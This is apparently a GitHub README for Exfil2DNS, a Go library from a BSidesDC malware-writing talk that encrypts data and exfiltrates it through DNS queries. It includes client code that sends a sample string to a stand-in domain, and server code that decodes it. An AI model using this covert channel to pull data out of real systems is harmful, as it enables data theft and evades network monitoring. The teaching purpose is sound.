 # Exfil2DNS

Simple library to exfiltrate data using DNS queries.

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Buffer encrypted bytes
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)
- [ ] Make a seperate chunking function (?)
- [ ] Make Client and Decryptor threadsafe?
- [ ] More testing

## Usage

Encrypt and send data:

```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	/* Target Name: cube, Domain: example.domain, Key: ThisIsAKey1234, Chunk Size: 23 */
	client, err := exfil2dns.NewClient("cube", "example.domain", "ThisIsAKey1234", 23)
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```

Decrypt data:

```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    server := exfil2dns.NewServer("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

    out := server.Decode(queryString)

    fmt.Printf("Target: %v, Payload: %v", out[0], out[1])
}
```
